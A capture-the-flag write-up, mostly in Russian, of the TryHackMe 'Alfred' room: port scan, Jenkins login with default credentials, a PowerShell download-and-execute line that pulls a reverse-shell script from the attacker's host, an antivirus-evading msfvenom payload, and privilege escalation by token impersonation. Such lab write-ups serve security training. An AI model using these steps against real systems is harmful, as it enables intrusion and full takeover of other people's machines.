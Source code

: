 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

И это не сработало, давайте попробуем admin:admin

<img src="https://imgur.com/aFModUR.png"/>


Это сработало там, где мы находимся, теперь нам нужно найти, где мы можем выполнять команды, чтобы получить обратную оболочку на целевой машине

Наведите курсор мыши на project, и вы увидите выпадающее меню

 <img src="https://i.imgur.com/15CMp1p.png"/>
 
У Вас будут такие варианты, как "Changes", "Workspace", "Build Now", "Delete Project"," Configure" и "Rename". Выберем `Configure`:

<img src="https://imgur.com/msvm69Y.png"/>

Переключимся на `Build Environment Tab`:

<img src="https://i.imgur.com/yUPIbcb.png"/>

Здесь Вы можете видеть, что есть команда, написанная как  whoami, так что давайте нажмем "Применить" и сохранимся:

<img src="https://i.imgur.com/eXEBFF6.png"/>

Нажмем на `#2`, затем на `Console Output`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

И Вы можете видеть, какую бы команду мы там ни вводили, она покажет результат, так что теперь все, что мы можем сделать, это разместить сценарий обратной оболочки powershell, загрузить его с помощью powershell и выполнить функцию в сценарии, чтобы получить оболочку:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Запустите свой http-сервер python3

<img src="https://imgur.com/Ffh7FPk.png"/>

И наша команда будет выглядеть так: запустите прослушиватель netcat:

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Теперь нажмите `Build Now`, и это задание будет запущено, и Вы получите оболочку:

<img src="https://imgur.com/2LThZZr.png"/>

Сгенерируйте полезную нагрузку msfvenom с кодировщиками для обхода AV.
Разместите ее на своем локальном компьютере и загрузите, повторив тот же метод:


<img src="https://imgur.com/2px77nI.png"/>

Настройте свой прослушиватель metasploit

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Запустите полезную нагрузку, и Вы увидите, что откроется сеанс meterpreter:

<img src="https://i.imgur.com/YF8AsSf.png"/>

Выполнив команду `getprivs`, мы можем увидеть, какие привилегии у нас есть на компьютере

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>
